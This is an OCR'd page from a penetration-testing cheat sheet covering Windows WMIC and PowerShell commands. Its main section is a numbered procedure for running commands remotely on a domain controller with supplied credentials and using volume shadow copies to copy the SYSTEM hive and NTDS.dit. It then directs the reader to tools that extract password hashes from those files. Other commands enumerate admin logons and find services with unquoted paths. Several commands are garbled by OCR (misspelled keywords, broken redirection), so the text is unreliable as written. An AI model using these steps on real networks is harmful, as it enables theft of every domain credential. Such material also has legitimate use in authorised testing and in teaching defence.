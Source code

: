 ```text
wmic netlogin where (name like "%adm%") get numberoflogons 
```

### Search for services with unquoted paths on binary

```text
wmic service get narne,displayname,pathnarne,startrnode 
| findstr /i nauton | findstr /i /v "C:\windows\\" | findstr /i /v """
```

### Volume shadow copy

```text
1. wmic /node: DC IP /user:"DOI1AIN\user" /password:"PASS" process 
   call create "cmd /c vssadmin list shadows 2 &1 
   c:\temp\output.txt" 
# If any copies alread1 ex~st then exfil, otherwise create using 
following commands. Check output.txt for anJ errors 
2. wmic /node: DC IP /user:"DOMAIN\user" /password:"PASS" process 
   call create "cmd /c vssadmin create shadow /for=C: 2 &1 
   C:\temp\output.txt" 
3. wmic /node: DC IP /user:"DOMAIN\user" /password:"PASS" process 
   call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVol~meShadowCopy1\Windows\System32\co nfig\SYSTEM 
   C:\temp\system.hive 2 &1  
   C:\temp\output.txt" 
4. wmic /node: DC IP /user: "DOl'.llUN\user" /password: "PASS" process call create ''cmd /c copy 
   \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyc\NTDS\NTDS.dit 
   C:\temp\ntds.dit 2 &1 C:\temp\output.txt" 
Step by step instructions on room362.com for step below 
5. From Linux, download and run ntdsxtract and libesedb to export 
   hashes or other domain information 
   a. Additional instructions found under the VSSOWN section 
   b. ntdsxtract - http://www.ntdsxtract.com 
   c. libesedb - http://code.google.com/p/libesedb/ 
```

## POWERSHELL

| **Command** | **Description** |
| :--- | :--- |
| stop-transcript | stop recording |
| get-content file | displays file contents |
| get-help command -examples | Shows examples of command |
| get-command  'string' | Searches for cmd string |
| get-service | Displajs services \(stopservice, start-service\) |
| get-wmiobject -class win32 service | Displays services, but takes alternate credentials |
| $PSVesionTable | DisplaJ powershell version |
| powershell.exe -version 2.0 | Run powershell 2.0 from 3.0 |
| get-service measure-object | Returns \# of services |
| get-psdrive | Returns list of PSDrives |
| get-process select -expandproperty name | Returns only names |
| get-help ' -parameter credential | Cmdlets that take creds |
| get-wmiobject -list -'network' | Available WMI network cmds |